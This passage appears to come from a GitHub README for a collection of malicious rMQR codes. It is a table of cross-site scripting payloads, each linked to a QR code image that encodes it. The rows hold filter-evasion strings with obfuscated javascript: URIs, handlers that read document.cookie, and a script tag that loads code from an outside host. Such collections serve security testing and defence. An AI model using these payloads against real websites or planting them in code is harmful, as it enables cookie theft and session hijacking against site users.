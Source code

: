 | `<XML ID=I><X><C><![CDATA[<IMG SRC="javas]]<![CDATA[cript:javascript:alert(1);">]]</C><X></xml>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/447.png) |
| `<a href="jav&#65ascript:javascript:alert(1)">test1</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/449.png) |
| `<a href="jav&#97ascript:javascript:alert(1)">test1</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/450.png) |
| `<embed width=500 height=500 code="data:text/html,<script>%(payload)s</script>"></embed>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/451.png) |
| `';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/452.png) |
| `alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/453.png) |
| `></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/454.png) |
| `'';!--"<XSS>=&{()}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/455.png) |
| `<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/456.png) |
| ``<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/461.png) |
| `<a onmouseover="alert(document.cookie)">xxs link</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/462.png) |
| `<a onmouseover=alert(document.cookie)>xxs link</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/463.png) |
| `<IMG """><SCRIPT>alert("XSS")</SCRIPT>">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/464.png) |
| `<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/465.png) |
| `<IMG SRC=# onmouseover="alert('xxs')">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/466.png) |
| `<IMG SRC="jav&#x09;ascript:alert('XSS');">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/470.png) |
| `<IMG SRC="jav&#x0A;ascript:alert('XSS');">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/471.png) |
| `<IMG SRC="jav&#x0D;ascript:alert('XSS');">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/472.png) |
| `perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/473.png) |
| `<IMG SRC=" &#14;  javascript:alert('XSS');">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/474.png) |
